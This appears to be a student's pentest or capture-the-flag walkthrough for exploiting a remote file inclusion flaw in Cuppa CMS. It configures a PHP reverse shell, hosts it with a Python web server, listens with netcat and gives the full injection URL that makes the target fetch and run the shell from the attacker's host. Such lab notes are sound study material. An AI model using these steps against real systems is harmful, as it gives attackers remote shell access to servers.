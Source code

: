 ## Examining the Exploit through exploitdb
Navigate to the location of the exploit with
```
cat /usr/share/exploitdb/exploits/exploit_path.txt
```
![[Pasted image 20251022192842.png]]
![[Pasted image 20251022193334.png]]

# Exploiting File Inclusion
We are going to exploit the file inclusion vulnerability and to do so we are going to create a php reverse shell

We are going to do the following: 
1. Setup a php reverse shell (/usr/share/webshells/php/php_shell)
	1. Modify the IP address and port
2. Host the PHP Payload (Use Python3 Http.server)
3. Setup the listener (Netcat)
4. Exploit the RFI to obtain the reverse shell

## Setup PHP reverse shell
We can navigate to the directory /usr/share/webshells/php
Then we copy the php payload and change to IP address and Port to our LHOST and LPORT
![[Pasted image 20251022193850.png]]

Modify it with nano
![[Pasted image 20251022193952.png]]

## Setup Python HTTP Webserver
```
python3 -m http.server 8080
```

## Setup Netcat Listener 
```
nc -nvlp 8888
```

The port is what you specified for LPORT of the PHP Payload

## Exploit the Remote File Inclusion within the webpage using the link 

use the following payload to exploit and change the values 
```
http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]
```

The final command will be as followed: 
```
http://10.10.116.36/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.2.143:9090/php-reverse-shell.php
```
